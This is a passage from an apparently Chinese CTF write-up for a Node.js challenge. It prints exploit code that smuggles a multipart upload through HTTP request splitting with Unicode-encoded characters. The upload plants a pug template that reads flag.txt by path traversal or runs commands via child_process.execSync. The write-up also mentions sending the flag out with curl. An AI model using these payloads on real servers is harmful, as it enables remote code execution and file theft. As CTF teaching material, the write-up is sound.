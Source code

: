 ```python
------WebKitFormBoundary4RZFWBFQ4MBn61cf
Content-Disposition: form-data; name="file"; filename="amiz.pug"
Content-Type: ../template

doctype html
html
  head
    style
      include ../../../../../../../flag.txt
------WebKitFormBoundary4RZFWBFQ4MBn61cf--

'''

payload = _payload.replace("\n", "\r\n")
payload = ''.join(chr(int('0xff' + hex(ord(c))[2:].zfill(2), 16)) for c in payload)
print(payload)
r = requests.get('http://a4d0ae70-d877-43de-8158-ed2b3c8fcb75.node4.buuoj.cn:81/core?q=' + urllib.parse.quote(payload))
print(r.text)

```

将会构造出这种玩意

![image-20211206133631155](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211206133631155.png)

另外pug模板除了包含flag.txt以外还可以跟上面nullcon的题一样用curl请求来外带flag；稍微修改一下exp即可

放一下[官方exp.py](https://blog.5am3.com/2020/02/11/ctf-node1/#%E8%87%AA%E5%B7%B1%E5%87%BA%E7%9A%84-node-game)

```python
import requests
import sys

payloadRaw = """x HTTP/1.1

POST /file_upload HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------12837266501973088788260782942
Content-Length: 6279
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/?action=upload
Upgrade-Insecure-Requests: 1

-----------------------------12837266501973088788260782942
Content-Disposition: form-data; name="file"; filename="5am3_get_flag.pug"
Content-Type: ../template

- global.process.mainModule.require('child_process').execSync('evalcmd')
-----------------------------12837266501973088788260782942--


"""

def getParm(payload):
    payload = payload.replace(" ","%C4%A0")
    payload = payload.replace("\n","%C4%8D%C4%8A")
    payload = payload.replace("\"","%C4%A2")
```